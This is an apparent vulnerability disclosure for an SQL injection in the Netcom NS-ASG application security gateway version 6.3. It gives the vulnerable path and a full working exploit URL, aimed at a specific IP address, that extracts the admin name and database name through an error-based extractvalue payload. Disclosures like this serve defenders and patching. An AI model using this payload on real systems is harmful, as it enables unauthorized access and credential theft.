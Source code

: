 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ： /nac/naccheck.php



https://1.85.53.53/nac/naccheck.php?username=test%2527%20%20and%20extractvalue(0x1,%20concat(0x1,%20(select%20concat(adminname,%200x7e,%20database())%20from%20Admin%20limit%201)))%20%23
<img width="619" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/2f19b827-918e-4e67-8715-6324c8693617">
